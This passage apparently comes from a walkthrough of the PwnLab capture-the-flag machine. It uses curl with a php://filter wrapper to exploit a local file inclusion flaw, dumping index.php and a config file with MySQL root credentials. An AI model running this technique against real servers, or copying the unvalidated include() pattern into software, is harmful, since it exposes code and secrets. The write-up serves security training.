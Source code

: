 We can see in the index.php file that it includes any file without validating the input and adds the .php extension.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=index" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee index.php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
        include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
        if (isset($_GET['page']))
        {
                include($_GET['page'].".php");
        }
        else
        {
                echo "Use this server to upload and share image files inside the intranet";
        }
?>
</center>
</body>
</html>
```

The **config.php** file contains the credentials to log into MySQL.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=config" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee config.php
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

### MySQL Enumeration
